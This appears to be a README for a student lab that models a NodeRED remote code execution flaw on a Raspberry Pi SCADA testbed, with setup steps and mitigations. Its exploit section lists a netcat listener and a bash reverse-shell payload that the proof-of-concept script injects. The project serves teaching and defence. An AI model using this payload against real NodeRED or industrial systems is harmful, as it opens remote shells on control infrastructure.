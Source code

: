 # CVE-2025-41656

## Project Summary
This project exists to model **CVE-2025-41656**, an unauthenticated remote code execution vulnerability for NodeRED. To model this vulnerability, we created a small form factor SCADA system with a raspberry pi, an actuator, and a sensor. The raspberry pi contains a NodeRED and OpenPLC container that communicate with eachother over Modbus TCP to control the actuator. This is a python proof of concept script to carry out the CVE-2025-41656 attack. The goal is to successfully create a PoC and find remediations to secure the system.

## Getting started
### The lab will include the following pieces
- Rasberry Pi 3b+
- Docker compose file with NodeRED and OpenPLC containers
- An actuator
- A sensor
- A motorized device controlled by the actuator
- Note: Setup will be different depending on what hardware you have. Adjust accordingly.

### Software Installation
```
git clone git@github.com:wallyschag/CVE-2025-41656.git
cd CVE-2025-41656
git clone https://github.com/thiagoralves/OpenPLC_v3.git
```
### Docker Setup
```
rm OpenPLC_v3/Dockerfile && cp Dockerfile_WiringPi OpenPLC_v3/Dockerfile
docker compose up --build -d
```
- Verify docker containers and network bridge are up and running
```
docker container ls
docker network inspect csci587-final-project_scadanet
```
- Both docker containers should be up.
- Also make sure both containers are network connected and have an assigned IP address.

## The exploit
- On host machine run `nc -lvnp 1234`
- Change the `NODE_RED_IP` and `NODE_RED_PORT` with the IP address and port (1880) of your NodeRED service in `cve_2025_41656.py`.
- Inside `cve_2025_41656` change the IP address in the line `"command": "bash -c 'bash -i >& /dev/tcp/192.168.4.223/1234 0>&1'",` to the IP address of the machine you are launching the exploit from.
```
python3 cve_2025_41656.py
```
- You should now have a reverse shell on the NodeRED container.

## Mitigation Strategies
- Implement TLS and an authentication mechanism for NodeRED.
- Segment SCADA networks to prevent unauthorized access to NodeRED.
- Monitor networks containing NodeRED with IDS/IPS systems looking for reverse shell traffic.
